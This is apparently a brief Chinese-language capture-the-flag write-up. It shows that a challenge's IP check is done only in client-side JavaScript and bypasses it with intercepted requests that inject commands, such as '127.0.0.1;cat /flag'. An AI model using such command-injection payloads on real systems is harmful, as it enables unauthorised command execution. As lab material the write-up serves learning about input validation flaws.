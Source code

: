 #RCE 
发现有输入检查，只能是 ip
但是验证是在前端 js 
```javascript
  function check_ip(){
    let ip = document.getElementById('command').value;
    let re = /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/;

    if(re.test(ip.trim())){
      return true;
    }
    alert('敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦');
    return false;
  }
```
尝试 burp suite 改包
```text
command=127.0.0.1;ls

command=127.0.0.1;cat /flag
```